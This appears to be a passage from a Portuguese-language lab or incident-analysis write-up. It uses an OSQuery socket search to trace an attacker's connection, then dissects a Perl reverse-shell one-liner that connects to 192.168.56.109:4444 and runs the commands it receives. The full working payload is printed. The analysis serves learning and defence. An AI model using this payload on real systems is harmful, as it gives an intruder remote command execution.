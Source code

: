 Como uma conexão foi estabelecida anteriormente, busquei por sockets abertos com o IP do atacante também:
```sql
SELECT * FROM process_open_sockets where remote_address =  '192.168.56.109';
```
{: file="OSQuery Search"}

![osquery-socketremotaddr.png](osquery-socketremotaddr.png)

Vamos ao estudo do que aconteceu. Quebrando o payload original em partes, e entendendo cada uma delas. O payload executado foi o seguinte:

```perl
perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.56.109:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};' &
```
{: file="Payload malicioso"}

1. Esse payload cria um fork (processo filho);
```perl
$p=fork;exit
```

2. Manipula as variáveis de ambiente;
```perl
if($p);
  foreach my $key(keys %ENV){
    if($ENV{$key}=~/(.*)/){
    $ENV{$key}=$1;
    }
  }
```

3. Cria uma variável `$c`, que cria um socket de rede com o Kali;
```perl
$c=new IO::Socket::INET(PeerAddr,"192.168.56.109:4444");
```

4. O fork le a entrada(`STDIN`) que digitar-mos, e escreve a saída (`$~`) no socket `$c` por meio de um redirecionamento, isso tudo em looping, fazendo parecer um shell interativo.
```perl
STDIN->fdopen($c,r);
$~->fdopen($c,w);
while(<>){
  if($_=~ /(.*)/){
  system $1;
  }
}
```
